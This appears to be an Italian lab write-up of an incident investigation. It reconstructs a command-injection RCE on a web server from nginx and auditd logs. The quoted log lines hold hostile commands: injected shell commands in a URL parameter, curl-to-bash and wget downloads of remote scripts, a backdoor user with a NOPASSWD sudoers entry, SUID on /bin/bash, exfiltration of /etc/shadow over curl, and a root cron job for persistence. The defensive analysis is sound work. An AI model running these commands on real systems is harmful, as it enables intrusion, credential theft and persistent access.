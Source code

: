 

# 
L’obiettivo di questo esercizio è identificare e ricostruire un tentativo di Remote Code Execution (RCE) sul server web, analizzando i log e correlando gli eventi.
In particolare, il focus è sull’individuazione dell’iniezione di comandi tramite parametri URL e sulla conferma della loro esecuzione a livello di sistema. 

(Ref-MITRE ATT&CK: T1059.004 : Command and Scripting Interpreter)

![ ](../image/a1.png)

![ ](../image/a2.png)

Il mio primo passo è stato cercare nei log di nginx durante il tempo indicato dall’allerta. Ho filtrato le richieste GET sospette che contenevano caratteri di shell (;, |, ecc.). La prima voce rilevante era:
```
2025-08-22 06:15:09 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:09 +0000] "GET /product?id=5;uname+-a HTTP/1.1" 200 432 "-" "Mozilla/5.0"
```

Il punto e virgola e il comando uname -a indicano un tentativo di iniezione di comandi. Questo tipo di comando viene spesso usato per testare se l'esecuzione è possibile. Dovevo confermare se era stato eseguito davvero.
Sono passato ai log di auditd e ho filtrato per voci EXECVE intorno allo stesso orario. Un secondo dopo, ho trovato:
```
2025-08-22 06:15:10 WEB01 auditd[1172]: EXECVE cmd=uname args=["uname","-a"] cwd="/var/www/app" pid=2435 uid=33
```

Questo conferma che il comando è stato eseguito, sotto uid=33, che corrisponde di solito all’utente www-data. Quindi il server era vulnerabile e l’attaccante aveva ottenuto esecuzione di comandi.
Per vedere se continuava, ho cercato altre richieste sospette dallo stesso IP subito dopo. Ho trovato questa:
```
2025-08-22 06:15:22 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:22 +0000] "GET /product?id=5;cat+/etc/passwd HTTP/1.1" 200 1021 "-" "Mozilla/5.0"
```

Ho verificato nei log di auditd per confermare l'esecuzione:
```
2025-08-22 06:15:23 WEB01 auditd[1172]: EXECVE cmd=cat args=["cat","/etc/passwd"] cwd="/var/www/app" pid=2437 uid=33
```

A questo punto avevo un pattern chiaro:

•	L’attaccante ha iniettato comandi shell usando un parametro vulnerabile.

•	Ogni richiesta era seguita da una voce EXECVE che conferma l’esecuzione.

•	Tutti i comandi erano eseguiti con lo stesso utente non-root.

Avevo quindi confermato l’accesso iniziale tramite iniezione di comandi e visto che l’attaccante stava facendo ricognizione. Non c’erano ancora segni di escalation di privilegi, ma il mio prossimo passo era cercare eventuali download di file o cambiamenti nei permessi.

# Esecuzioni successive e primi segnali di escalation
Dopo aver confermato che l’attaccante poteva eseguire comandi, ho cercato nei log se aveva provato a scaricare o eseguire altri script. Ho filtrato nei log nginx le richieste con comandi curl o wget, perché spesso sono usati per scaricare payload.

```
2025-08-22 06:16:18 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:16:18 +0000] "GET /product?id=5;curl+http://198.51.100.77/shell.sh|bash HTTP/1.1" 200 231 "-" "Mozilla/5.0"
```
Il comando usa curl per scaricare uno script remoto e lo esegue direttamente con bash. Per verificare, ho controllato i log di auditd nello stesso momento:
```
2025-08-22 06:16:19 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","http://198.51.100.77/shell.sh"] cwd="/var/www/app" pid=2440 uid=33
```

Il comando è stato eseguito come uid=33, quindi lo script remoto è stato scaricato ed eseguito come utente www-data. Ho continuato a cercare per vedere se c’erano altri download. Poco dopo, ho trovato questa seconda richiesta:
```
2025-08-22 06:18:44 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:18:44 +0000] "GET /product?id=5;wget+http://198.51.100.77/dropper.sh+-O+/tmp/x.sh;sh+/tmp/x.sh HTTP/1.1" 200 452 "-" "Mozilla/5.0"
```

Qui viene scaricato un secondo script (dropper.sh) e salvato in /tmp/x.sh, poi eseguito subito con sh. Nei log auditd ì:
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=wget args=["wget","http://198.51.100.77/dropper.sh","-O","/tmp/x.sh"] cwd="/var/www/app" pid=2444 uid=33
```
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=sh args=["sh","/tmp/x.sh"] cwd="/var/www/app" pid=2445 uid=33
```
Queste righe confermano che lo script dropper è stato salvato nella cartella temporanea ed eseguito. A questo punto ho iniziato a tracciare tutto ciò che accadeva dopo sh /tmp/x.sh, usando il PID 2445 come riferimento.
Ho trovato altri comandi eseguiti da quello script:
```
2025-08-22 06:19:18 WEB01 bash[2453]: wget: saved file "/tmp/x.sh" size=214 bytes
2025-08-22 06:19:31 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+x","/tmp/x.sh"] cwd="/var/www/app" pid=2452 uid=33
2025-08-22 06:19:36 WEB01 auditd[1172]: EXECVE cmd=/tmp/x.sh args=["/tmp/x.sh"] cwd="/var/www/app" pid=2453 uid=33
2025-08-22 06:19:39 WEB01 bash[2453]: useradd attacker -m -s /bin/bash
2025-08-22 06:19:44 WEB01 bash[2453]: echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

Ho notato che lo script ha creato un utente chiamato attacker e ha cercato di modificarne i privilegi. Il file /etc/sudoers richiede privilegi root, quindi a questo punto ho iniziato a sospettare che l’attaccante stesse tentando l’escalation.
Tuttavia, fino a questo momento tutti i comandi risultavano ancora eseguiti come uid=33. Non c’era ancora prova concreta che l’attaccante avesse ottenuto accesso root, ma i tentativi erano chiari.


# Esfiltrazione e persistenza finale
Dopo aver visto che lo script cercava di modificare /etc/sudoers, ho deciso di concentrarmi sui log auditd per trovare segnali di privilege escalation riuscita. Ho continuato a filtrare gli EXECVE dopo l’esecuzione di /tmp/x.sh.
Il primo evento chiave è stato questo:
`
2025-08-22 06:19:50 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+s","/bin/bash"] cwd="/var/www/app" pid=2455 uid=0 auid=0
`

Qui ho finalmente visto un comando eseguito da uid=0 (root). L’attaccante ha impostato il bit SUID su /bin/bash, creando un backdoor permanente con privilegi root. Questo è un chiaro segnale di escalation completata.
Ho cercato cosa è successo subito dopo ....
```
2025-08-22 06:20:11 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","-X","POST","-d","$(cat /etc/shadow)","http://198.51.100.77/exfil"] cwd="/var/www/app" pid=2456 uid=0 auid=0
```

L’attaccante ha usato curl per inviare il contenuto di /etc/shadow verso un server remoto. Questo file contiene le hash delle password e può essere letto solo da root. Il fatto che il comando è stato eseguito da uid=0 conferma che i privilegi root erano stati ottenuti con successo.
Infine, ho voluto vedere se era stata impostata qualche forma di persistenza. Ho controllato le modifiche nei file di sistema e ...
```
2025-08-22 06:20:23 WEB01 bash[2453]: cron job created: "* * * * * root /tmp/x.sh" in /etc/crontab
```

Questa voce indica che è stato aggiunto un job cron per eseguire /tmp/x.sh ogni minuto come utente root. È un metodo semplice ma efficace per mantenere accesso continuo al sistema anche dopo un riavvio.

A questo punto ho l'intero quadro dell'attacco:

•	Accesso iniziale tramite iniezione di comandi

•	Download ed esecuzione di payload remoti

•	Escalation dei privilegi tramite chmod +s /bin/bash

•	Esfiltrazione del file /etc/shadow

•	Persistenza tramite cron


